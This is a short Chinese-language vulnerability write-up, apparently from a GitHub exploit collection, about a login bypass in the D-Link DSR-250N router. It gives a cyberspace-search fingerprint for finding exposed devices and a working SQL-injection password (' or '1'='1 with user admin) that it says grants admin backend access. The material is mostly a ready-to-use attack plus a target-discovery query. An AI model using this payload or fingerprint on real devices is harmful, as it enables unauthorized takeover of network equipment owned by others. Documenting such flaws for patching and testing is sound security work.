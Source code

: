 # D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

```
D-Link DSR-250N
```

## 网络测绘

```
app="D_Link-DSR-250N"
```

## 漏洞复现

登录页面如下

![](images/202202162222919.png)

```plain
user: admin
pass: ' or '1'='1
```

成功登录后台

![](images/202202162223338.png)
